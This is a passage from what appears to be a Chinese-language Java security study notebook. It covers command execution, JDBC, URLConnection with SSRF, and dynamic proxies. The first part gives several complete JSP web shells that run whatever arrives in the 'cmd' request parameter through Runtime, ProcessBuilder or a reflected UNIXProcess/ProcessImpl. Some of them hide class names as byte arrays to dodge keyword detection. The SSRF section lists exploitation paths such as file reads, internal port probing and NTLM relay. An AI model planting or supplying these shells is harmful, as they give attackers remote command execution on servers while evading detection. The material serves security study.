    String str = request.getParameter("cmd");

    //定义"java.lang.Runtime"字节变量，隐藏Runtime关键字
    String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});

    //反射获取Runtime类对象
    Class<?> clazz = Class.forName(rt);

    //反射获取getRuntime方法
    Method method_getRuntime = clazz.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));

    //反射获取exec方法
    Method method_exec = clazz.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);

    //反射调用Runtime.getRuntime.exec()方法
    //Object object_getRuntime = method_getRuntime.invoke(null);
    //Object object_exec = method_exec.invoke(object_getRuntime, str);
    Object object = method_exec.invoke(method_getRuntime.invoke(null), str);

    //反射获取Process类的getInputStream方法
    Method method_getInputStream = object.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    method_getInputStream.setAccessible(true);

    //获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    Scanner scanner = new Scanner((InputStream) method_getInputStream.invoke(object, new Object[]{})).useDelimiter("\\A");
    String result = scanner.hasNext() ? scanner.next() : "";

    out.write(result);
%>
```

### ProcessBuilder命令执行

学习`Runtime`命令执行的时候我们讲到其最终`exec`方法会调用`ProcessBuilder`来执行本地命令，那么我们只需跟踪下Runtime的exec方法就可以知道如何使用`ProcessBuilder`来执行系统命令了。

#### process-builder.jsp

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page contentType="text/html;charset=UTF-8" %>

<%
  //注意此处用了request.getParameterValues方法，因为ProcessBuilder只能接收字符数组
  InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();

  ByteArrayOutputStream baos = new ByteArrayOutputStream();

  byte[] bytes = new byte[1024];
  int a;

  while ((a = in.read(bytes)) != -1){
    baos.write(bytes,0,a);
  }

  out.write(baos.toString());
%>
```


### JSP反射ProcessBuilder类命令执行

#### reflect-processbuilder.jsp

```java
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page contentType="text/html;charset=UTF-8" %>

<%
  //接收request数组对象
  Object cmd = request.getParameterValues("cmd");

  //反射获取java.lang.ProcessBuilder类
  Class clazz = Class.forName(new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 66, 117, 105, 108, 100, 101, 114}));

  //反射获取有参构造器
  Constructor constructor = clazz.getConstructor(String[].class);

  //反射获取start方法
  Method method_start = clazz.getMethod("start");

  //实例化获取对象
  Object object = constructor.newInstance(cmd);
  Object object2 = method_start.invoke(object);

  //反射执行getInputStream方法
  Method method_getInputStream = object2.getClass().getDeclaredMethod("getInputStream");
  method_getInputStream.setAccessible(true);

  //输出结果
  Scanner scanner = new Scanner((InputStream) method_getInputStream.invoke(object2, new Object[]{})).useDelimiter("\\A");
  String result = scanner.hasNext() ? scanner.next() : "";

  out.write(result);
%>
```

### UNIXProcess/ProcessImpl

`UNIXProcess`和`ProcessImpl`其实就是最终调用`native`执行系统命令的类，这个类提供了一个叫`forkAndExec`的native方法，如方法名所述主要是通过`fork&exec`来执行本地系统命令。

`UNIXProcess`类的`forkAndExec`示例：

```java
private native int forkAndExec(int mode, byte[] helperpath,
                                   byte[] prog,
                                   byte[] argBlock, int argc,
                                   byte[] envBlock, int envc,
                                   byte[] dir,
                                   int[] fds,
                                   boolean redirectErrorStream)
        throws IOException;
```

### 反射UNIXProcess/ProcessImpl执行本地命令

#### reflect-processimpl.jsp

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>

<%!
    byte[] toCString(String s) {
        if (s == null) {
            return null;
        }

        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }

    InputStream start(String[] strs) throws Exception {
        // java.lang.UNIXProcess
        String unixClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115});

        // java.lang.ProcessImpl
        String processClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108});

        Class clazz = null;

        // 反射创建UNIXProcess或者ProcessImpl
        try {
            clazz = Class.forName(unixClass);
        } catch (ClassNotFoundException e) {
            clazz = Class.forName(processClass);
        }

        // 获取UNIXProcess或者ProcessImpl的构造方法
        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        assert strs != null && strs.length > 0;

        // Convert arguments to a contiguous block; it's easier to do
        // memory management in Java than in C.
        byte[][] args = new byte[strs.length - 1][];

        int size = args.length; // For added NUL bytes
        for (int i = 0; i < args.length; i++) {
            args[i] = strs[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
            // No need to write NUL bytes explicitly
        }

        int[] envc    = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};

        FileInputStream  f0 = null;
        FileOutputStream f1 = null;
        FileOutputStream f2 = null;

        // In theory, close() can throw IOException
        // (although it is rather unlikely to happen here)
        try {
            if (f0 != null) f0.close();
        } finally {
            try {
                if (f1 != null) f1.close();
            } finally {
                if (f2 != null) f2.close();
            }
        }

        // 创建UNIXProcess或者ProcessImpl实例
        Object object = constructor.newInstance(
                toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        );

        // 获取命令执行的InputStream
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);

        return (InputStream) inMethod.invoke(object);
    }

    String inputStreamToString(InputStream in, String charset) throws IOException {
        try {
            if (charset == null) {
                charset = "UTF-8";
            }

            ByteArrayOutputStream out = new ByteArrayOutputStream();
            int                   a   = 0;
            byte[]                b   = new byte[1024];

            while ((a = in.read(b)) != -1) {
                out.write(b, 0, a);
            }

            return new String(out.toByteArray());
        } catch (IOException e) {
            throw e;
        } finally {
            if (in != null)
                in.close();
        }
    }
%>
<%
    String[] str = request.getParameterValues("cmd");

    if (str != null) {
        InputStream in     = start(str);
        String      result = inputStreamToString(in, "UTF-8");
        out.println("<pre>");
        out.println(result);
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```


## JDBC基础（暂时跳过）

`JDBC(Java Database Connectivity)`是Java提供对数据库进行连接、操作的标准API。Java自身并不会去实现对数据库的连接、查询、更新等操作而是通过抽象出数据库操作的API接口(`JDBC`)，不同的数据库提供商必须实现JDBC定义的接口从而也就实现了对数据库的一系列操作。

### JDBC Connection

Java通过`java.sql.DriverManager`来管理所有数据库的驱动注册，所以如果想要建立数据库连接需要先在`java.sql.DriverManager`中注册对应的驱动类，然后调用`getConnection`方法才能连接上数据库。

JDBC定义了一个叫`java.sql.Driver`的接口类负责实现对数据库的连接，所有的数据库驱动包都必须实现这个接口才能够完成数据库的连接操作。`java.sql.DriverManager.getConnection(xx)`其实就是间接的调用了`java.sql.Driver`类的`connect`方法实现数据库连接的。数据库连接成功后会返回一个叫做`java.sql.Connection`的数据库连接对象，一切对数据库的查询操作都将依赖于这个`Connection`对象。

JDBC连接数据库的一般步骤:

1. 注册驱动，`Class.forName("数据库驱动的类名")`。
2. 获取连接，`DriverManager.getConnection(xxx)`。

**JDBC连接数据库示例代码如下:**

```java
String CLASS_NAME = "com.mysql.jdbc.Driver";
String URL = "jdbc:mysql://localhost:3306/mysql"
String USERNAME = "root";
String PASSWORD = "root";

Class.forName(CLASS_NAME);// 注册JDBC驱动类
Connection connection = DriverManager.getConnection(URL, USERNAME, PASSWORD);
```

#### 数据库配置信息


## URLConnection

在java中，Java抽象出来了一个`URLConnection`类，它用来表示应用程序以及与URL建立通信连接的所有类的超类，通过`URL`类中的`openConnection`方法获取到`URLConnection`的类对象。

Java中URLConnection支持的协议可以在`sun.net.www.protocol`看到。


由上图可以看到，支持的协议有以下几个(当前jdk版本:1.7.0_80):

```
file ftp mailto http https jar netdoc gopher
```

虽然看到有`gopher`，但是`gopher`实际在jdk8版本以后被阉割了，jdk7高版本虽然存在，但是需要设置

其中每个协议都有一个`Handle`,`Handle`定义了这个协议如何去打开一个连接。

我们来使用URL发起一个简单的请求

### TestURLConnection

```java
package com.y5neko.sec.url;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.net.URL;
import java.net.URLConnection;

public class TestURLConnection {
    public static void main(String[] args) throws IOException {
        //定义URL链接
        URL url = new URL("https://blog.ysneko.com");

        //打开url连接
        URLConnection urlConnection = url.openConnection();

        // 设置请求参数
        urlConnection.setRequestProperty("user-agent", "Y5neKO_Browser");
        //urlConnection.setConnectTimeout(1000);
        //urlConnection.setReadTimeout(1000);

        //建立实际连接
        urlConnection.connect();
        //获取响应字段
        urlConnection.getHeaderFields();
        //通过getInputStream方法获取URL输入流
        urlConnection.getInputStream();

        //创建StringBuilder对象接收输入流获取的内容
        StringBuilder content = new StringBuilder();
        //创建BufferedReader对象和InputStreamReader对象用来逐步处理URL输入流
        //BufferedReader是阻塞流，需要readLine方法取走才会继续读取
        BufferedReader in = new BufferedReader(new InputStreamReader(urlConnection.getInputStream()));
        String line;

        //逐行读取BufferedReader对象接收的内容到line中
        while ((line = in.readLine()) != null){
            content.append("\n").append(line);
        }

        System.out.println(content);
    }
}
```


大概描述一下这个过程，首先使用URL建立一个对象，调用`url`对象中的`openConnection`来获取一个`URLConnection`的实例，然后通过在`URLConnection`设置各种请求参数以及一些配置，在使用其中的`connect`方法来发起请求，然后在调用`getInputStream`来获请求的响应流。 这是一个基本的请求到响应的过程。

### SSRF

我们之前提到，由于URL类支持7种协议，因此在传入参数可控且没有做限制的情况下，很容易引发SSRF漏洞

例如，传入url参数为：

```java
URL url = new URL("file:///D:/test.txt");
URLConnection connection = url.openConnection();
connection.connect();
```


但是如果上述代码中将`url.openConnection()`返回的对象强转为`HttpURLConnection`，则会抛出如下异常

```
Exception in thread "main" java.lang.ClassCastException: sun.net.www.protocol.file.FileURLConnection cannot be cast to java.net.HttpURLConnection
```

由此看来，ssrf漏洞也对使用不同类发起的url请求也是有所区别的，如果是`URLConnection|URL`发起的请求，那么对于上文中所提到的所有`protocol`都支持，但是如果经过二次包装或者其他的一些类发出的请求，比如

```
HttpURLConnection
HttpClient
Request
okhttp
……
```

那么只支持发起`http|https`协议，否则会抛出异常。

如果传入的是`http://127.0.0.1:80`，且`127.0.0.1`的`80`端口存在的，则会将其网页源码输出出来


但如果是非web端口的服务，则会爆出`Invalid Http response` 或`Connection reset`异常。如果能将此异常抛出来，那么就可以对内网所有服务端口进行探测。

java中默认对(http|https)做了一些事情，比如:

- 默认启用了透明NTLM认证
- 默认跟随跳转

关于NTLM认证的过程这边不在复述，大家可以看该文章[《Ghidra 从 XXE 到 RCE》](https://xlab.tencent.com/cn/2019/03/18/ghidra-from-xxe-to-rce/) 默认跟随跳转这其中有一个坑点，就是


它会对跟随跳转的url进行协议判断，所以Java的SSRF漏洞利用方式整体比较有限。

- 利用file协议读取文件内容（仅限使用`URLConnection|URL`发起的请求）
- 利用http 进行内网web服务端口探测
- 利用http 进行内网非web服务端口探测(如果将异常抛出来的情况下)
- 利用http进行ntlmrelay攻击(仅限`HttpURLConnection`或者二次包装`HttpURLConnection`并未复写`AuthenticationInfo`方法的对象)

对于防御ssrf漏洞的攻击，不单单要对传入的协议进行判断过滤，也要对其中访问的地址进行限制过滤。


## JNI安全基础（暂时跳过）


## Java动态代理

`Java`反射提供了一种类动态代理机制，可以通过代理接口实现类来完成程序无侵入式扩展。

**Java动态代理主要使用场景：**

1. 统计方法执行所耗时间。
2. 在方法执行前后添加日志。
3. 检测方法的参数或返回值。
4. 方法访问权限控制。
5. 方法`Mock`测试。

### 动态代理API

创建动态代理类会使用到`java.lang.reflect.Proxy`类和`java.lang.reflect.InvocationHandler`接口。`java.lang.reflect.Proxy`主要用于生成动态代理类`Class`、创建代理类实例，该类实现了`java.io.Serializable`接口。

**java.lang.reflect.Proxy类主要有下面几种方法：**

```java
package java.lang.reflect;

import java.lang.reflect.InvocationHandler;

public class Proxy implements java.io.Serializable {

    /**
     * 获取动态代理处理类对象
     *
     * @param proxy 返回调用处理程序的代理实例
     * @return 代理实例的调用处理程序
     * @throws IllegalArgumentException 如果参数不是一个代理实例
     */
    public static InvocationHandler getInvocationHandler(Object proxy)
            throws IllegalArgumentException {
        ...
    }

    /**
     * 创建动态代理类实例
     *
     * @param loader     指定动态代理类的类加载器
     * @param interfaces 指定动态代理类的类需要实现的接口数组
     * @param h          动态代理处理类
     * @return 返回动态代理生成的代理类实例
     * @throws IllegalArgumentException 不正确的参数异常
     */
    public static Object newProxyInstance(ClassLoader loader, Class<?>[] interfaces, InvocationHandler h)
            throws IllegalArgumentException {
        ...
    }

    /**
     * 创建动态代理类
     *
     * @param loader     定义代理类的类加载器
     * @param interfaces 代理类要实现的接口列表
     * @return 用指定的类加载器定义的代理类，它可以实现指定的接口
     */
    public static Class<?> getProxyClass(ClassLoader loader, Class<?>... interfaces) {
        ...
    }

    /**
     * 检测某个类是否是动态代理类
     *
     * @param cl 要测试的类
     * @return 如该类为代理类，则为 true，否则为 false
     */
    public static boolean isProxyClass(Class<?> cl) {
        return java.lang.reflect.Proxy.class.isAssignableFrom(cl) && proxyClassCache.containsValue(cl);
    }

    /**
     * 向指定的类加载器中定义一个类对象
     *
     * @param loader 类加载器
     * @param name   类名
     * @param b      类字节码
     * @param off    截取开始位置
     * @param len    截取长度
     * @return JVM创建的类Class对象
     */
    private static native Class defineClass0(ClassLoader loader, String name, byte[] b, int off, int len);

}
```

`java.lang.reflect.InvocationHandler`接口用于调用`Proxy`类生成的代理类方法，该类只有一个`invoke`方法。


```java
package java.lang.reflect;

import java.lang.reflect.Method;

/**
 * 每个代理实例都具有一个关联的调用处理程序。对代理实例调用方法时，将对方法调用进行编码并
 * 将其指派到它的调用处理程序的 invoke 方法。
 */
public interface InvocationHandler {

    /**
     * 在代理实例上处理方法调用并返回结果。在与方法关联的代理实例上调用方法时，将在调用处理程序上调用此方法。
     *
     * @param proxy  在其上调用方法的代理实例
     * @param method 对应于在代理实例上调用的接口方法的 Method 实例。Method 对象的声明类将是在其中声明
     *               方法的接口，该接口可以是代理类赖以继承方法的代理接口的超接口。
     * @param args   包含传入代理实例上方法调用的参数值的对象数组，如果接口方法不使用参数，
     *               则为 null。基本类型的参数被包装在适当基本包装器类（如 java.lang.Integer
     *               或 java.lang.Boolean）的实例中。
     * @return 从代理实例的方法调用返回的值。如果接口方法的声明返回类型是基本类型，
     * 则此方法返回的值一定是相应基本包装对象类的实例；否则，它一定是可分配到声明返回类型的类型。
     * 如果此方法返回的值为 null 并且接口方法的返回类型是基本类型，则代理实例上的方法调用将抛出
     * NullPointerException。否则，如果此方法返回的值与上述接口方法的声明返回类型不兼容，
     * 则代理实例上的方法调用将抛出 ClassCastException。
     * @throws Throwable 从代理实例上的方法调用抛出的异常。该异常的类型必须可以分配到在接口方法的
     *                   throws 子句中声明的任一异常类型或未经检查的异常类型 java.lang.RuntimeException 或
     *                   java.lang.Error。如果此方法抛出经过检查的异常，该异常不可分配到在接口方法的 throws 子句中
     *                   声明的任一异常类型，代理实例的方法调用将抛出包含此方法曾抛出的异常的
     */
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable;

}
```

### 使用java.lang.reflect.Proxy动态创建类对象

`ClassLoader`和`Unsafe`都有一个叫做`defineClassXXX`的`native`方法，我们可以通过调用这个`native`方法动态的向`JVM`创建一个类对象，而`java.lang.reflect.Proxy`类恰好也有这么一个`native`方法，所以我们也将可以通过调用`java.lang.reflect.Proxy`类`defineClass0`方法实现动态创建类对象。

#### ProxyDefineClassTest

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.proxy;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

import static com.y5neko.sec.classloader.TestClassLoader.TEST_CLASS_BYTES;
import static com.y5neko.sec.classloader.TestClassLoader.TEST_CLASS_NAME;

public class ProxyDefineClassTest {

    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        Class clazz = Class.forName("java.lang.reflect.Proxy");

        //获取系统的类加载器，可以根据具体情况换成一个存在的类加载器
        ClassLoader classLoader = ClassLoader.getSystemClassLoader();

        //反射java.lang.reflect.Proxy类获取其中的defineClass0方法
        Method method = clazz.getDeclaredMethod("defineClass0", ClassLoader.class, String.class, byte[].class, int.class, int.class);
        method.setAccessible(true);

        //反射调用java.lang.reflect.Proxy.defineClass0()方法，动态向JVM注册
        Class helloWorldClass = (Class) method.invoke(null,new Object[]{classLoader, TEST_CLASS_NAME, TEST_CLASS_BYTES, 0, TEST_CLASS_BYTES.length});
        System.out.println(helloWorldClass);
    }

}
```


### 创建代理类实例

我们可以使用`Proxy.newProxyInstance`来创建动态代理类实例，或者使用`Proxy.getProxyClass()`获取代理类对象再反射的方式来创建，下面我们以`com.y5neko.sec.proxy.FileSystem`接口为例，演示如何创建其动态代理类实例。

#### com.y5neko.sec.proxy.FileSystem

```java
package com.y5neko.sec.proxy;

import java.io.File;
import java.io.Serializable;

public interface FileSystem extends Serializable {

    String[] list(File file);

}
```

#### com.y5neko.sec.proxy.UnixFileSystem

```java
package com.y5neko.sec.proxy;

import java.io.File;

public class UnixFileSystem implements FileSystem {

    /* -- Disk usage -- */
    public int spaceTotal = 996;

    @Override
    public String[] list(File file) {
        System.out.println("正在执行[" + this.getClass().getName() + "]类的list方法，参数:[" + file + "]");

        return file.list();
    }

}
```

#### com.y5neko.sec.proxy.JDKInvocationHandler

```java
package com.y5neko.sec.proxy;

import java.io.Serializable;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;

public class JDKInvocationHandler implements InvocationHandler, Serializable {

    private final Object target;

    public JDKInvocationHandler(Object target) {
        this.target = target;
    }

    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        // 为了不影响测试Demo的输出结果，这里忽略掉toString方法
        if ("toString".equals(method.getName())) {
            return method.invoke(target, args);
        }

        System.out.println("即将调用[" + target.getClass().getName() + "]类的[" + method.getName() + "]方法...");
        Object obj = method.invoke(target, args);
        System.out.println("已完成[" + target.getClass().getName() + "]类的[" + method.getName() + "]方法调用...");

        return obj;
    }

}
```


#### Proxy.newProxyInstance创建动态代理类实例

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.proxy;

import java.lang.reflect.Proxy;

public class TestProxyInstance {
    public static void main(String[] args) {
        // 创建UnixFileSystem类实例
        FileSystem fileSystem = new UnixFileSystem();

        // 使用JDK动态代理生成FileSystem动态代理类实例
        FileSystem proxyInstance = (FileSystem) Proxy.newProxyInstance(
                FileSystem.class.getClassLoader(),// 指定动态代理类的类加载器为FileSystem类的加载器
                new Class[]{FileSystem.class},// 定义动态代理生成的类实现的接口
                new JDKInvocationHandler(fileSystem)// 动态代理处理类
        );

        System.out.println(proxyInstance);
    }
}
```


#### Proxy.getProxyClass反射创建动态代理类实例

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.proxy;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;

public class TestGetProxyClass {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        // 创建UnixFileSystem类实例
        FileSystem fileSystem = new UnixFileSystem();

        // 创建动态代理处理类
        InvocationHandler handler = new JDKInvocationHandler(fileSystem);

        // 通过指定类加载器、类实现的接口数组生成一个动态代理类
        Class proxyClass = Proxy.getProxyClass(
                FileSystem.class.getClassLoader(),// 指定动态代理类的类加载器
                new Class[]{FileSystem.class}// 定义动态代理生成的类实现的接口
        );

        // 使用反射获取Proxy类构造器并创建动态代理类实例
        FileSystem proxyInstance = (FileSystem) proxyClass.getConstructor(
                new Class[]{InvocationHandler.class}).newInstance(new Object[]{handler}
        );

        System.out.println(proxyInstance);
    }
}
```


### 动态代理添加方法调用日志示例

假设我们有一个叫做`FileSystem`接口，`UnixFileSystem`类实现了`FileSystem`接口，我们可以使用`JDK动态代理`的方式给`FileSystem`的接口方法执行前后都添加日志输出。

#### FileSystemProxyTest

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.proxy;

import java.io.File;
import java.lang.reflect.Proxy;
import java.util.Arrays;

public class FileSystemProxyTest {
    public static void main(String[] args) {
        //创建UnixFileSystem类实例
        FileSystem fileSystem = new UnixFileSystem();

        //使用JDK动态代理生成FileSystem动态代理类实例
        FileSystem proxyInstance = (FileSystem) Proxy.newProxyInstance(
                FileSystem.class.getClassLoader(),// 指定动态代理类的类加载器
                new Class[]{FileSystem.class}, // 定义动态代理生成的类实现的接口
                new JDKInvocationHandler(fileSystem)// 动态代理处理类，此时通过UnixFileSystem类代理FileSystem
        );

        System.out.println("动态代理生成的类名:" + proxyInstance.getClass());
        System.out.println("----------------------------------------------------------------------------------------");
        System.out.println("动态代理生成的实例名:" + proxyInstance);
        System.out.println("----------------------------------------------------------------------------------------");

        // 使用动态代理的方式UnixFileSystem方法
        String[] files = proxyInstance.list(new File("."));

        System.out.println("----------------------------------------------------------------------------------------");
        System.out.println("UnixFileSystem.list方法执行结果:" + Arrays.toString(files));
        System.out.println("----------------------------------------------------------------------------------------");

        boolean isFileSystem     = proxyInstance instanceof FileSystem;
        boolean isUnixFileSystem = proxyInstance instanceof UnixFileSystem;

        System.out.println("动态代理类[" + proxyInstance.getClass() + "]是否是FileSystem类的实例:" + isFileSystem);
        System.out.println("----------------------------------------------------------------------------------------");
        System.out.println("动态代理类[" + proxyInstance.getClass() + "]是否是UnixFileSystem类的实例:" + isUnixFileSystem);
        System.out.println("----------------------------------------------------------------------------------------");
    }
}
```


我们来分析一下整个调用流程

- 首先创建了一个UnixFileSystem类的实例，用以JDKInvocationHandler动态处理类代理
- 接着使用JDK动态代理生成FileSystem动态代理类实例，因此动态代理生成的类名和实例名分别是`class com.sun.proxy.$Proxy0`和`com.y5neko.sec.proxy.UnixFileSystem@29453f44`
- 使用动态代理的方式执行`list`方法，实际上执行的是`UnixFileSystem`类的list方法，并且通过JDK动态代理的invoke方法覆写了`InvocationHandler`类的invoke方法，增加了前后和执行中的日志输出


- 接着判断动态代理类`com.sun.proxy.$Proxy0`属于哪个类的实例
- 注意此处结果，第一个为true，第二个为false，因为proxyInstance本身是FileSystem类，但是使用了UnixFileSystem类作为动态代理

### 动态代理类生成的$ProxyXXX类代码分析

`java.lang.reflect.Proxy`类是通过创建一个新的`Java类(类名为com.sun.proxy.$ProxyXXX)`的方式来实现无侵入的类方法代理功能的。

**动态代理生成出来的类有如下技术细节和特性：**

1. 动态代理的必须是接口类，通过`动态生成一个接口实现类`来代理接口的方法调用(`反射机制`)。
2. 动态代理类会由`java.lang.reflect.Proxy.ProxyClassFactory`创建。
3. `ProxyClassFactory`会调用`sun.misc.ProxyGenerator`类生成该类的字节码，并调用`java.lang.reflect.Proxy.defineClass0()`方法将该类注册到`JVM`。
4. 该类继承于`java.lang.reflect.Proxy`并实现了需要被代理的接口类，因为`java.lang.reflect.Proxy`类实现了`java.io.Serializable`接口，所以被代理的类支持`序列化/反序列化`。
5. 该类实现了代理接口类(示例中的接口类是`com.y5neko.sec.proxy.FileSystem`)，会通过`ProxyGenerator`动态生成接口类(`FileSystem`)的所有方法，
6. 该类因为实现了代理的接口类，所以当前类是代理的接口类的实例(`proxyInstance instanceof FileSystem`为`true`)，但不是代理接口类的实现类的实例(`proxyInstance instanceof UnixFileSystem`为`false`)。
7. 该类方法中包含了被代理的接口类的所有方法，通过调用动态代理处理类(`InvocationHandler`)的`invoke`方法获取方法执行结果。
8. 该类代理的方式重写了`java.lang.Object`类的`toString`、`hashCode`、`equals`方法。
9. 如果动过动态代理生成了多个动态代理类，新生成的类名中的`0`会自增，如`com.sun.proxy.$Proxy0/$Proxy1/$Proxy2`。

**动态代理生成的`com.sun.proxy.$Proxy0`类代码：**

```java
package com.sun.proxy.$Proxy0;

import java.io.File;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.lang.reflect.UndeclaredThrowableException;

public final class $Proxy0 extends Proxy implements FileSystem {

    private static Method m1;

  // 实现的FileSystem接口方法，如果FileSystem里面有多个方法那么在这个类中将从m3开始n个成员变量
    private static Method m3;

    private static Method m0;

    private static Method m2;

    public $Proxy0(InvocationHandler var1) {
        super(var1);
    }

    public final boolean equals(Object var1) {
        try {
            return (Boolean) super.h.invoke(this, m1, new Object[]{var1});
        } catch (RuntimeException | Error var3) {
            throw var3;
        } catch (Throwable var4) {
            throw new UndeclaredThrowableException(var4);
        }
    }

    public final String[] list(File var1) {
        try {
            return (String[]) super.h.invoke(this, m3, new Object[]{var1});
        } catch (RuntimeException | Error var3) {
            throw var3;
        } catch (Throwable var4) {
            throw new UndeclaredThrowableException(var4);
        }
    }

    public final int hashCode() {
        try {
            return (Integer) super.h.invoke(this, m0, (Object[]) null);
        } catch (RuntimeException | Error var2) {
            throw var2;
        } catch (Throwable var3) {
            throw new UndeclaredThrowableException(var3);
        }
    }

    public final String toString() {
        try {
            return (String) super.h.invoke(this, m2, (Object[]) null);
        } catch (RuntimeException | Error var2) {
            throw var2;
        } catch (Throwable var3) {
            throw new UndeclaredThrowableException(var3);
        }
    }

    static {
        try {
            m1 = Class.forName("java.lang.Object").getMethod("equals", Class.forName("java.lang.Object"));
            m3 = Class.forName("com.y5neko.sec.proxy.FileSystem").getMethod("list", Class.forName("java.io.File"));
            m0 = Class.forName("java.lang.Object").getMethod("hashCode");
            m2 = Class.forName("java.lang.Object").getMethod("toString");
        } catch (NoSuchMethodException var2) {
            throw new NoSuchMethodError(var2.getMessage());
        } catch (ClassNotFoundException var3) {
            throw new NoClassDefFoundError(var3.getMessage());
        }
    }
}
```

### 动态代理类实例序列化问题

动态代理类符合`Java`对象序列化条件，并且在`序列化/反序列化`时会被`ObjectInputStream/ObjectOutputStream`特殊处理。

#### FileSystemProxySerializationTest

```java
/*
 * Copyright (c) 2023. Lorem ipsum dolor sit amet, consectetur adipiscing elit.
 * Morbi non lorem porttitor neque feugiat blandit. Ut vitae ipsum eget quam lacinia accumsan.
 * Etiam sed turpis ac ipsum condimentum fringilla. Maecenas magna.
 * Proin dapibus sapien vel ante. Aliquam erat volutpat. Pellentesque sagittis ligula eget metus.
 * Vestibulum commodo. Ut rhoncus gravida arcu.
 */

package com.y5neko.sec.proxy;

import java.io.*;
import java.lang.reflect.Proxy;

public class FileSystemProxySerializationTest {
    public static void main(String[] args) {
        try{
            //创建UnixFileSystem类实例
            FileSystem fileSystem = new UnixFileSystem();

            //使用JDK动态代理生成FileSystem动态代理类实例
            FileSystem proxyInstance = (FileSystem) Proxy.newProxyInstance(
                    FileSystem.class.getClassLoader(),// 指定动态代理类的类
                    new Class[]{FileSystem.class},//指定动态代理实现的接口
                    new JDKInvocationHandler(fileSystem)//使用JDK动态处理类，用UnixFileSystem类代理
            );

            //创建Java字节输出流对象
            ByteArrayOutputStream baos = new ByteArrayOutputStream();

            //创建Java反序列化输出流对象
            ObjectOutputStream oos = new ObjectOutputStream(baos);

            //序列化动态代理类
            oos.writeObject(proxyInstance);
            oos.flush();
            oos.close();

            System.out.println("序列化结果为：");
            System.out.println(baos);

            // 利用动态代理类生成的二进制数组创建二进制输入流对象用于反序列化操作
            ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());

            // 通过反序列化输入流(bais),创建Java对象输入流(ObjectInputStream)对象
            ObjectInputStream in = new ObjectInputStream(bais);

            // 反序列化输入流数据为FileSystem对象
            FileSystem test = (FileSystem) in.readObject();

            System.out.println("反序列化类实例类名:" + test.getClass());
            System.out.println("反序列化类实例:" + test);
